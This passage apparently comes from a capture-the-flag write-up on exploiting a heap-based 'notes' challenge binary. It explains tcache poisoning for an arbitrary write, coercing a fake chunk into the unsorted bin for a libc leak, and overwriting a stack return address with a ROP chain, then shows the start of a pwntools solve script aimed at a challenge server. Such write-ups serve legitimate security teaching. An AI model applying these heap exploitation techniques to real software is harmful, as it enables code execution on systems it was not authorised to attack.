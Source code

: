 | Allocate | 1 | 0x1337 | - |

By writing to the `tcache_perthread_struct`, we can control `entries[4]` and `count[4]` which corresponds to the 0x60 sized chunk.

Subsequently, in order to do any arbitrary write, we merely have to modify `entries[4]` to change the head of the tcache linked list using `editNote` and subsequently allocate a chunk to a desired address.

Now, we can achieve arbitrary write with **1 allocation and 1 editNote**.

### Coercing a chunk into the unsorted bin

Since `fastbin` only support chunks up to size 0x88, we can use our arbitrary write to overwrite a chunk size to `0x90` and modify the `tcache->count[]` for the `0x90` bin to be `7` which would indicate that the `tcache` is full.

Since the `tcache` is "full", the memory allocator would free out fake `0x90` chunk into the unsorted bin which puts a **libc leak** on the heap for us to leak.

### Arbitary write to code execution

The most traditional and reliable way to get code execution would be to modify the return address on the stack.

1. Leak stack address by leaking `_libc_environ`
2. Allocate and write ROP chain to **return address** on the stack.

### Solve Script

Finally, piecing everything together, here's the solve script.

```py
from pwn import *

elf = context.binary = ELF("notes")
libc = elf.libc
if args.REMOTE:
	p = remote("104.131.25.76", 31991)
else:
	p = elf.process()

sla = lambda a, b: p.sendlineafter(a, b)
sa = lambda a, b: p.sendafter(a, b)
sl = lambda a: p.sendline(a)
s = lambda a: p.send(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(a)

def add(size, note):
    sla(b"choice:", b"1")
    sla(b"Size:", str(size).encode())
    if not note == b"":
        sa(b"Note:", note)

def view(idx):
    sla(b"choice:", b"2")
    sla(b"Index:", str(idx).encode())

def delete(idx):
    sla(b"choice:", b"3")
    sla(b"Index:", str(idx).encode())

def edit(idx, size, note):
    sla(b"choice:", b"4")
    sla(b"Index:", str(idx).encode())
```